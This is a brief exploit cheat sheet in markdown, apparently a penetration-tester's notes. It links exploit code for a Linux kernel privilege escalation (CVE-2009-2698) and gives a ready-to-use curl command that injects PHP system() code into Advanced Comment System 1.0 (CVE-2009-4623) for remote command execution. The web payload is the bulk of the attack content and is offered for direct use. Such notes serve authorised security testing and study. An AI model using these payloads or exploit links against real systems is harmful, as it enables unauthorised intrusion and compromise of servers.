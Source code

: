 # CVE

## Linux

#### CVE-2009-2698 (Linux Kernel < 2.6.19 (x86/x64) - 'udp\_sendmsg') - LPE

```
https://github.com/xiaoxiaoleo/CVE-2009-2698 #Binaire
https://github.com/pythonmaster41/Go-For-OSCP/blob/master/Exploits/9545.c #Versions vulnérables
```

## Windows



## WEB

#### CVE-2009-4623 (Advanced Comment System 1.0) - RCE

```
curl -s --data "<?system('<CMD');?>" 'http://<IP>/internal/advanced_comment_system/admin.php?ACS_path=php://input%00'
```
